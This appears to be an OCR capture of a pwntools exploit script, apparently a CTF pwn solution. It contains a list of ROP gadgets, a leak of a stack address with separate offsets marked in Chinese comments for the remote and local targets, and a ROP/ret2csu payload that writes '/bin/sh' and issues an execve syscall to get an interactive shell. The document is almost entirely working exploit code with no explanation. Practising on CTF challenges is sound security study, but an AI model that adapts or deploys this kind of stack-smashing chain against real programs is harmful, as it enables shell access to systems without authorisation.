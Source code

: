 ```
# 0x000000000040059c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040059e : pop r13 ; pop r14 ; pop r15 ; ret

# 0x00000000004005a0 : pop r14 ; pop r15 ; ret

# 0x00000000004005a2 : pop r15 ; ret

# 0x000000000040059b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040059f : pop rbp ; pop r14 ; pop r15 ; ret

# 0x0000000000400440 : pop rbp ; ret

# 0x00000000004005a3 : pop rdi ; ret

# 0x00000000004005a1 : pop rsi ; pop r15 ; ret

# 0x000000000040059d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x00000000004003a9 : ret

  

# binsh=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x118

#上面的是打远程的地址

binsh=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x148

#上面的是打本地地址

  

print(hex(binsh))

  

payload=flat(('/bin/sh\x00').ljust(0x10,'\x00'),p64(pop6),p64(0),p64(0),p64(binsh+0x50),p64(0)*3,p64(mov),p64(gadget),p64(rdi),p64(binsh),p64(syscall))

  

p.send(payload)

  

p.interactive()
```


